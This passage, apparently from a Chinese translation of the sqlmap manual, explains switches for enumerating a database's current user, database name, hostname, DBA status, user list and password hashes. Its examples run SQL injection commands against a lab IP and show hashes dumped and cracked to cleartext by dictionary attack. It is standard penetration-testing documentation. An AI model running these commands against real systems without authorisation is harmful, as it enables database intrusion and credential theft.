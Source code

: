 开关: `--current-user`

有了这个开关，就可以检索数据库管理系统的用户，该用户实际上是通过web应用程序对后端DBMS执行查询。

### 当前数据库

开关: `--current-db`

使用此开关，可以检索web应用程序连接到的数据库管理系统的数据库名称。

### 服务器主机名

开关: `--hostname`

使用这个开关，可以检索数据库管理系统的主机名。

针对MySQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
hostname

[...]
[xx:xx:04] [INFO] fetching server hostname
[xx:xx:04] [INFO] retrieved: debian-5.0-i386
hostname:    'debian-5.0-i386'
```

### 检测会话用户是否是数据库管理员

开关: `--is-dba`

如果当前的数据库管理系统会话用户是数据库管理员，也称为DBA，则可以检测到它。如果是，sqlmap将返回 `True` ，反之亦然。

### 列出数据库管理系统的用户

开关: `--users`

当会话用户读取包含DBMS用户信息的系统表时，可以枚举用户列表。

### 列表和破解数据库管理系统用户密码散列

开关: `--passwords`

当会话用户读取包含关于DBMS用户密码信息的系统表的访问时，可以为每个数据库管理系统用户枚举密码散列。sqlmap将首先枚举用户，然后对每个用户进行不同的密码散列。

针对PostgreSQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
passwords -v 1

[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```